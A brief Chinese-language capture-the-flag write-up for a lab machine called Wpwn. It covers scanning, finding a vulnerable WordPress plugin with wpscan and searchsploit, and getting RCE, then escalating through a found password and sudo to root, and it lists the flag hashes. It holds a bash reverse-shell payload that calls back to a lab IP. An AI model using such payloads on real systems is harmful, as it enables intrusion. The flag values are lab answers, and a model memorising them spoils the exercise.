

# Wpwn

初始掃描開22跟80 感覺80能打


根目錄什麼東西都沒有 掃一下能發現有wordpress


直接上wpscan 找到一個plugin是不常見的 用searchsploit找可以發現有RCE的漏洞


在看了exploit的說明跟原始碼感覺不是很理解 到他的Github上看可以發現payload.txt要用他的格式才能做Command Execution


直接把這一串塞到meow.txt裡面 然後開一個http server後執行exploit 就能直接RCE了
```
<pre>system("bash  -c 'bash -i >& /dev/tcp/192.168.49.207/443 0>&1'")</pre>
```


#### 橫向提權

跑linPEAS找到一個奇怪的密碼 直接`su takis` 發現成功提到takis


#### 垂直提權

提到takis以後`sudo -l` 結果發現是ALL 直接`sudo su`就是root了


#### Proof

local.txt
`2e74dca60755cc6512f2ff21aa13f3d8`


proof.txt
`67700d1daeab233daaffd38a88b22db0`
